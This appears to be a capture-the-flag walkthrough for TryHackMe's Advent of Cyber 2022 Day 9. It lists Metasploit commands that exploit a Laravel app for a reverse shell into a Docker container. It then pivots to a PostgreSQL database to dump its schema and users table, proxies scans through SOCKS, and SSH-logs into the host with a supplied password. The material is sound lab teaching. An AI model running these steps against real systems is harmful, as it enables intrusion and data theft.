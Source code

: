 # [Advent of Cyber 2022](https://tryhackme.com/room/adventofcyber4)

> Get started with Cyber Security in 24 Days - learn the basics by doing a new, beginner-friendly security challenge every day leading up to Christmas.

## Day 9: Dock the halls

scan the target

```
nmap -sV 10.10.249.228
```

![image](https://user-images.githubusercontent.com/90561566/206836994-a0fb95a9-acae-4ccf-ba35-ca6528a21ab3.png)

inspect web in network tab, you can see the website is using laravel framework

![image](https://user-images.githubusercontent.com/90561566/206837414-86460ac0-a647-47a6-b4fd-eff32759c097.png)

```
msfconsole
```

![image](https://user-images.githubusercontent.com/90561566/206837648-bd28931c-0d84-4f9f-ade3-97692ff1269f.png)

```
set HttpClientTimeout 20
set rhosts 10.10.249.228
check
```

![image](https://user-images.githubusercontent.com/90561566/206837806-531454b0-ff76-47ea-80b5-e149fa8df684.png)

```
set lhost 10.8.0.74
run
```

![image](https://user-images.githubusercontent.com/90561566/206837939-35b425b2-0568-4b05-890b-43a01299d78d.png)

background the session

![image](https://user-images.githubusercontent.com/90561566/206837988-e6642782-7f7e-4a54-afa4-acd1c59a11b0.png)

update to meterpreter

```
sessions -u 1
sessions -i 2
```

![image](https://user-images.githubusercontent.com/90561566/206838093-8285c2ce-5860-45f9-9d5e-2c69a4c5bc90.png)

explore the application

![image](https://user-images.githubusercontent.com/90561566/206838159-9969a7e2-cdce-4ce3-a8dc-0d9f3081e70d.png)

![image](https://user-images.githubusercontent.com/90561566/206838186-643b9f42-691c-4d12-bfd1-5d21bff1b288.png)

resolve hostname to ip

```
resolve webservice_database
```

background session and config route table for pivoting

```
route add 172.28.101.51/32 2
```

![image](https://user-images.githubusercontent.com/90561566/206838345-54f3e8f8-8a20-4a40-b71b-2ac102b34280.png)

We can also see, due to the presence of the /.dockerenv file, that we are in a docker container. 

By default, Docker chooses a hard-coded IP to represent the host machine.

```
route add 172.17.0.1/32 2
```

dump the database schema

```
use auxiliary/scanner/postgres/postgres_schemadump
set rhosts 172.28.101.51
run
```

![image](https://user-images.githubusercontent.com/90561566/206839175-3d006527-4439-4a7f-8e43-9960f6d6fa9e.png)

```
use auxiliary/admin/postgres/postgres_sql
set rhosts 172.28.101.51
set database postgres
set sql 'select * from users'
run
```

![image](https://user-images.githubusercontent.com/90561566/206839428-c7603330-bbd1-4d31-82b7-c2bc8c8a269c.png)

create socks proxy

```
use auxiliary/server/socks_proxy
set srvhost 127.0.0.1
set srvport 9050
set version 4a
run
```

![image](https://user-images.githubusercontent.com/90561566/206839549-64059aea-be38-444c-ab6f-f9da523b2996.png)

now you can use proxy through

```
proxychains nmap -n -sT -Pn -p 22,80,443,5432 172.17.0.1
```

![image](https://user-images.githubusercontent.com/90561566/206839554-7ee40680-c4dd-49d0-8de1-8431fa20d1d6.png)

SSH into the host machine from the Docker container

```
use auxiliary/scanner/ssh/ssh_login
set username santa
set password p4$$w0rd
set rhosts 172.17.0.1
run
```

now interact with opened session to grab flag

![image](https://user-images.githubusercontent.com/90561566/206840056-96f5cd4d-5e12-43f3-a8bf-6053b31c7752.png)







